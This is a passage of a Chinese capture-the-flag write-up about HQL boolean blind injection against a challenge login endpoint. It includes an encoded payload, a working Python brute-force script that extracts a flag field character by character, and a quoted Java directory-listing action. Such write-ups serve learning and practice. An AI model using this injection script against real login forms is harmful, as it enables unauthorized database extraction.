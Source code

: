 成功登陆后台，但是没啥用....页面是写死的。。。。

这里要用到布尔盲注....

payload1中控制是否成功登陆的是第一个条件

利用```'<hql>'like'<c>'```来爆破字段

写脚本

```python
# payload="user.name=admin'or(select%0aascii(substr(welcometoourctf,1,1))from%0aFlag%0a)like'115'or%0aname%0alike'admin&user.password=1"

#coding=utf-8
from pwn import *

import requests

url="http://111.198.29.45:53297/zhuanxvlogin"

flag =""
for i in range(1,50):
    for c in range(30,150):
        ch = chr(c)
        if ch == '_' or ch == '%':
            continue
        sql="(select\nascii(substr(welcometoourctf," + str(i) + ",1))\nfrom\nFlag\n)"
        username = "admin'or" + sql + "like'" + str(c) + "'or\nname\nlike'admin"
        password = "1"
        data = {"user.name" : username , "user.password" : password}
        #print data
        req = requests.post(url,data=data,timeout=10000).text
        if len(req) > 4000:
            flag = flag +ch
            print ("Flag:"+flag)
            break
```

很奇怪的是不知道为啥必须要用ascii码来like,并且要用第二个payload来组装数据

关于welcometoourctf和Flag是哪来的

还记得之前的list吗

```java
  public class AdminAction
  extends ActionSupport {
  private String pathName;
  
  public String execute() throws Exception {
    if (this.pathName == null) {
      return "list_error";
    }
    travelDirectory(this.pathName);
    return "success";
  }

  
  public void setPathName(String pathName) { this.pathName = pathName; }

  
  public void travelDirectory(String directory) {
    List<String> fileList = new ArrayList<String>();
    File dir = new File(directory);
    if (dir.isFile())
      return;  File[] files = dir.listFiles();
    ActionContext actionContext = ActionContext.getContext();
```